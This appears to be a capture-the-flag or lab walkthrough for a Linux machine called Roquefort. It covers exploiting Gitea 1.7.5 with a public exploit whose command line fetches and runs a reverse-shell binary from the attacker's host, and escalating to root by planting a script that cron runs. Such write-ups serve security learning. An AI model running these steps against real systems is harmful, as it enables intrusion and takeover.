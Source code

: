 # 🧀 Roquefort (Linux)

## 🚪 Ports
```
21/tcp   open  ftp  
22/tcp   open  ssh  
2222/tcp open  EtherNetIP-1  
3000/tcp open  ppp  
```

---

## 🎯 Initial Foothold

- Found Gitea 1.7.5 running on port **3000**.
- Created a user via the Gitea web interface:  
  👤 `yoni : yoniyoni`
- Found [Gitea Exploit 49383.py](https://www.exploit-db.com/exploits/49383) and modified it with:

```python
USERNAME = "yoni"
PASSWORD = "yoniyoni"
HOST_ADDR = '192.168.45.166'
HOST_PORT = 3000
URL = 'http://192.168.116.67:3000'
CMD = 'wget http://192.168.45.166:21/shell.elf; chmod +x shell.elf; ./shell.elf'
```

- Created a reverse shell using `msfvenom` and started a listener on **port 22**.
- After running the exploit, received a shell!

---

## 🧑‍💻 Privilege Escalation

- Ran `linpeas.sh` and found `/usr/local/bin` is writable.
- Used `pspy32` and noticed this recurring cron job:

```bash
run-parts --report /etc/cron.hourly
```

- Created a reverse shell script named `run-parts` and placed it inside `/usr/local/bin`.
- Made it executable with `chmod +x run-parts`.
- Started a `nc` listener.
- 🧨 After 5 minutes — got a root shell!

---

## 💡 Key Takeaways

- 🧠 Local writable folders + cron = escalation.
- 🛠 Gitea versions <1.8 are vulnerable to command injection.
- 🔎 `pspy` and `linpeas` are your best friends for escalation discovery.

